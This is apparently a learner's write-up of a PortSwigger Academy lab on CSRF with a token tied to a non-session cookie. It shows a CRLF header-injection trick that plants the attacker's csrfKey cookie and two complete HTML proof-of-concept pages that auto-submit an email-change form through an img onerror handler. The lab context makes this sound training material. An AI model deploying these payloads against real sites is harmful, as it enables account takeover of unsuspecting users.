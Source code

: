 # [CSRF] Lab: CSRF where token is tied to non-session cookie (1)

---

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled.png)

so when we login we have a cookie being set which is normal behavior. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%201.png)

so when application uses a non-session cookie to tie together the csrf token this can be dangerous because the attacker can still exploit this vulnerability by finding places where the website sets a cookie and try to set my own csrfKey cookie and provide my own csrf token. 

so by navigating the site then filtering for a search on set-cookie: I was able to find all the requests/response that caused cookies to be set. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%202.png)

Sets the setting csrfKey whenever a get request is sent to /login

lets see if I am already logged in and if i request /login what will happen to do this ill simply just use repeater. 

so lets see what happens when the csrfKey is included and when it is removed. 

**csrfKey included:** 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%203.png)

**csrfKey omitted:**

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%204.png)

it sets a new cookie. 

so lets have the user login with our account to set our own valid cookie in there browser. 

lets see if I make a request to someone else's browser with my session cookie will it set there csrfKey to my csrfKey?

/my-account?id=wiener&Set-Cookie: csrfKey=uHc4SBogXX2dRyQpJ0APikzSxPfSdhy

that didn't work what if we try to go down a line in the response since every thing is being reflected

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%205.png)

so if we use %0A to go down a line then %0D to have the carriage return we can create a new line in the response and set our own cookie lets try it. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%206.png)

it worked in here now lets provide our set cookie. 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%207.png)

so now we can see it work so all we need to do is create a csrf PoC to have user visit this URl: 

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%208.png)

 

**TESTING:**

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%209.png)

so now carlos csrfKey is set to wieners csrfKey

so inorder to pass our form along with our search term we can use a tag like img which can load  our URL without any affect to the URL of the form. 

for our csrf payload becomes: 

```jsx
<html>
  
  <body>
    <form action="https://0a9b00e1033c95968182765700ef0048.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="JTu3KnbYtrF8B18PTYNhiv5f2bcvyfJx" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a9b00e1033c95968182765700ef0048.web-security-academy.net?search=lb155%0D%0ASet-Cookie%3A+csrfKey%3DuHc4SBogXX2dRyQpJ0APikzSxPfSdhy;SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

by using the onerror since no image is going to be found we are able to submit our form rather then using the <script> tags. 

now if we add a unused csrf token this attack and payload should work. 

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9b00e1033c95968182765700ef0048.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="email@email.com" />
      <input type="hidden" name="csrf" value="lIzoh5JasB90Z7AJhU2yw2ICsMaAh9oL" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://0a9b00e1033c95968182765700ef0048.web-security-academy.net/?search=/?search=test%0d%0aSet-Cookie:%20csrfKey=3WEnyheMUoZ0ihiuT2VOLI3DbcjvvIRb%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

![Untitled](%5BCSRF%5D%20Lab%20CSRF%20where%20token%20is%20tied%20to%20non-session%208af8447b474e4bb2822f6b4bd3fdfbd7/Untitled%2010.png)